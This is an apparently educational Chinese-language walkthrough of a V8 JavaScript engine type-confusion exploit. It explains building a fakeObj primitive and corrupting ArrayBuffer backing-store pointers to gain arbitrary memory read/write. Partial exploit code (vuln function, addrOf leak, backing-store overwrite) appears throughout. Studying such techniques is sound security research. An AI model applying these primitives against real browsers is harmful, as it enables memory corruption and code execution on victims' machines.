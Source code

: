 # 任意读写
上文写到利用ArrayBuffer和TypedArray可以实现任意地址读写，接下来就用fakeObj的案例来实践一下。
```
function fakeObj() {
    eval(`
    function vuln(obj) {
      obj.inline;
      this.Object.create(obj);
      let orig = obj.p${p1}.x;
      // Overwrite property x of p1, but due to type confusion
      // we overwrite property y of p2
      obj.p${p1}.x = 0x41414141n;
      return orig;
    }
  `);

    let obj = {z: 1234};
    let pValues = [];
    pValues[p1] = {x: 13.37};
    pValues[p2] = {y: obj}
```
创建了具有内联属性的p1和p2
在 `vuln` 函数中，我们尝试覆盖 `p1` 对象的属性 `x` 。这将取消引用 `p1` 的对象地址并访问偏移量 24(上文中测试过内联属性的第一个值地址在偏移24处)，其中 `x` 属性值内联存储。但是，由于类型混淆，此操作实际上会覆盖 `obj` 对象的地址，`obj`地址位于p2的偏移24处
![image.png](https://s2.loli.net/2023/07/19/gAaWeJ8vYVUpmKH.png)
上图介绍了内存中的情况，P1对象地址与P2对象地址重叠，因为类型混淆，在对P1的对象赋值的时候将P2的对象地址给覆盖了，P2对象地址指向的是偏移24的P2对象的内联属性地址

前面有说`数组`缓冲区的`后备存储指针`位于`偏移量 32` 处，至此我门用的一些常用偏移：
- `数组`缓冲区的`后备存储指针`位于`偏移量 32` 处
- `内联属性`的第一个值地址在`偏移24`处
此时我们再创建一个内联属性，就可以碰到偏移32，实现访问和覆盖后备存储指针
内存情况如下图
![image.png](https://s2.loli.net/2023/07/19/k3iyIVL6KxS4j5v.png)
这样我们就可以获得任意内存读写的能力，但是若是需要从多个内存读写，一次次执行显得比较麻烦，因此我们采取另一个更好的解决方案。

为了减少使用fakeObj原语覆盖后备存储次数，我们使用两个数组缓冲区对象，如下图
![image.png](https://s2.loli.net/2023/07/20/pEraujiNlf6MbFx.png)
1. 破坏第一个数组的后备存储指针，使其指向第二个数组缓冲区对象的地址
2. 使用第一个数组缓冲区的TypedArray 视图写入第五个对象属性（第四个索引，即 view1[4] ），这将覆盖第二个数组缓冲区的后备存储指针。从那里，我们可以使用第二个数组缓冲区的 TypedArray 视图从指向的内存区域读取和写入数据！


接下来就是实践一下以上的逻辑，实现在任意地址读写的功能
1. 创建一个1024字节大小的数组缓冲区来保存利用代码
2. 泄露数组缓冲区地址并用0x41414141覆盖其后备存储指针
相关代码如下
```JavaScript



print("[+] Finding Overlapping Properties...");
findOverlappingProperties();
print(`[+] Properties p${p1} and p${p2} overlap!`);

// Create Array Buffer
let arrBuf1 = new ArrayBuffer(1024);

print("[+] Leaking ArrayBuffer Address...");
let arrBuf1fAddr = addrOf(arrBuf1);
print(`[+] ArrayBuffer Address: 0x${arrBuf1fAddr.toString(16)}`);
%DebugPrint(arrBuf1)

print("[+] Corrupting ArrayBuffer Backing Store Address...")
```
